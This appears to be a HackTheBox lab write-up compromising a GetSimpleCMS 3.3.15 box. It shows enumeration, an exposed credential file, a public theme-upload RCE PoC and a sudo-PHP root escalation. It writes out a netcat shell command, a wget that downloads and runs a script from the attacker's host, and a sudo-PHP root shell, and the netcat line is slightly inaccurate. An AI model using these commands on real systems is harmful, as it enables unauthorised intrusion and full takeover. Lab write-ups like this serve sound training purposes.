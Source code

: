 # Day17 - getsimplecms_box

- **Platform**: HackTheBox  
- **Category**: Web / Privilege Escalation  
- **Difficulty**: Medium  
- **Date**: 2025-05-16  
- **Tools Used**: Nmap, Gobuster, Hashcat, Firefox, GitHub exploit, Netcat, LinEnum  

---

## Summary
The target machine ran GetSimpleCMS 3.3.15, a web application vulnerable to remote code execution through its theme upload feature. After retrieving admin credentials from an exposed XML file, I exploited a public RCE PoC to gain a shell. Privilege escalation was achieved by abusing a `sudo` misconfiguration that allowed running PHP as root without a password, ultimately retrieving the `root.txt` flag.

---

## Enumeration
1. **Port Scanning**  
   - Ran Nmap:
     ```bash
     nmap -sC -sV -oA nmap/initial 10.10.10.123
     ```
   - Found open ports:  
     - 80 (HTTP)  
     - 22 (SSH)  

2. **Directory Discovery**  
   - Used Gobuster:
     ```bash
     gobuster dir -u http://10.10.10.123/ \
       -w /usr/share/wordlists/dirb/common.txt \
       -x php,html,txt,bak -o gobuster/root.txt
     ```
   - Discovered `/admin/` login page.  

3. **Credential Discovery**  
   - Found exposed XML file at `/data/users.xml` containing hashed credentials:
     ```xml
     <user>
       <username>admin</username>
       <password>d033e22ae348aeb5660fc2140aec35850c4da997</password>
     </user>
     ```
   - Hash recognized as SHA-1 for `admin`.  
   - Logged into `/admin/` with `admin:admin`.  

4. **Vulnerability Research**  
   - Identified GetSimpleCMS 3.3.15 vulnerable to RCE via theme upload (CVE documented online).  
   - Found public PoC:  
     https://github.com/cybersecaware/GetSimpleCMS-RCE/tree/main  

---

## Exploitation
1. **RCE via Theme Upload**  
   - Cloned PoC exploit.  
   - Set up reverse shell listener:
     ```bash
     busybox nc -l -p 9001 -e /bin/sh
     ```
   - Executed exploit against target with payload to connect back.  
   - Gained shell as `www-data`.  

2. **Privilege Escalation**  
   - Uploaded and ran LinEnum:
     ```bash
     wget http://10.10.14.5/linenum.sh
     chmod +x linenum.sh
     ./linenum.sh | tee linenum.log
     ```
   - Found `/usr/bin/php` could be run as root via `sudo` without a password.  
   - Spawned root shell:
     ```bash
     CMD="/bin/sh"
     sudo /usr/bin/php -r "system('$CMD');"
     ```
   - Verified escalation with `whoami -> root`.  

3. **Flag Retrieval**  
   ```bash
   find / -name root.txt 2>/dev/null
   cat /root/root.txt
   ```

---

## Lessons Learned
- Directory and file brute-forcing often reveals sensitive configuration files.  
- Public CVEs and GitHub PoCs can be leveraged to shortcut exploitation of known vulnerable applications.  
- Privilege escalation often comes down to `sudo` misconfigurations; always check `sudo -l`.  
- Combining multiple simple misconfigurations (exposed files + weak hash + RCE + sudo misconfig) leads to full system compromise.  
